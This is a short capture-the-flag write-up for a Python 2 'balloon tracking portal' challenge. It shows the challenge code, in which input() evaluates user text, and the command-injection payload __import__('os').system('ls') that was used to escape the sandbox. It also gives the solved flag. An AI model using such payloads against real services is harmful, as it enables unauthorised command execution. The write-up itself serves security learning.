

# Feb. 1 - Balloons
> Starting off with a bang (pop)! I ordered a bunch of Valentine's Day-themed balloons, and I'm so excited about them! Here's the portal I use to track my order.

> Look for "valentine.txt."

## About the Challenge
We have been given a python code and we need to bypass from the sandbox. The python code will be look like this:
```python
from balloon_tracking_lookup import get_status

print "Welcome to your balloon order-tracking portal! Enter your tracking number here.\n"
tracking_number = input(">>> ")

try:
  print "Getting status for order #" + str(int(tracking_number)) + "..."
except:
  print "Invalid tracking number!"

print get_status(int(tracking_number))
```

## How to Solve?
When I input `1+1` it turns out that the output is 2 which means it's possible that the get_status function used the `eval` function, and then I tried to escape the sandbox using a payload like this and it worked
```
__import__('os').system('ls')
```

And finally after being able to escape the sandbox, read the valentine.txt file and the flag appears



```
valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}
```